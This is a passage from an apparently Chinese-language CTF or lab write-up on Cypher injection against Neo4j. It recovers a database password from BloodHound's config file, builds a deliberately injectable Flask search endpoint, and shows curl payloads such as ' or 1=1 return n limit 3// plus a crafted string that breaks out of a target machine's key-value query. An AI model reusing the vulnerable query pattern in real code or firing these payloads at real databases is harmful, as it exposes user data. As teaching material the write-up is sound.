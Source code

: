 neo4j，用过bloodhound的应该都不陌生了  
```
sudo neo4j console 启动
cat /home/kali/.config/bloodhound/config.json #自动登录忘记了密码，但是好在bloodhound记着的

写个python查询cypher的
from flask import Flask, request
from neo4j import GraphDatabase

driver = GraphDatabase.driver("bolt://localhost:7687", auth=("neo4j", "your_password"))
app = Flask(__name__)

@app.route("/search")
def search():
    name = request.args.get("name")
    query = f"MATCH (n:User) WHERE n.name = '{name}' RETURN n"
    with driver.session() as session:
        result = session.run(query)
        return "<br>".join([str(r["n"]) for r in result])

app.run(port=5000)


```  
  
开始注入，因为之前插入了一个Alice，名字好记，或者用之前bloodhound的用户名也可以  
```
from neo4j import GraphDatabase

driver = GraphDatabase.driver("bolt://localhost:7687", auth=("neo4j", "password"))

with driver.session() as session:
    session.run("CREATE (u:User {name: 'Alice'})")
    result = session.run("MATCH (u:User) RETURN u.name AS name")
    for record in result:
        print(record["name"])

```  
  
两条语句查看变化  
```
#正常语句：
curl "http://localhost:5000/search?name=Alice"
#' or 1=1 return n limit 3//
curl "http://localhost:5000/search?name=%27%20or%201%3D1%20return%20n%20limit%203%2F%2F"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053oDzu3lBK9UHT4zYFb9AAicuYUEDTxy7l3GiaLJErjcpA9z6JotMTmh6w/640?wx_fmt=png&from=appmsg "")  
  
  
这里如果采取 ' or 1=1 // return n limit 3  
 会直接报错的，最好先构造完整，再注释掉后面重复的语句  
  
那么知道了这点，可以根据靶机的代码结构，尝试构造的语句就是  
```
r#"MATCH (result: {} {{ {}: "{}" }}) RETURN result"#,
是键值对，不能有or 1=1这种了

即 MATCH (result:User { name: "some_value" }) RETURN result

88b6b6c5-a614-486c-9d51-d255f47efb4f"}) return result // 编码后访问，页面正常，就是id=88b6b6c5-a614-486c-9d51-d255f47efb4f的页面，所以结构没问题
```  
  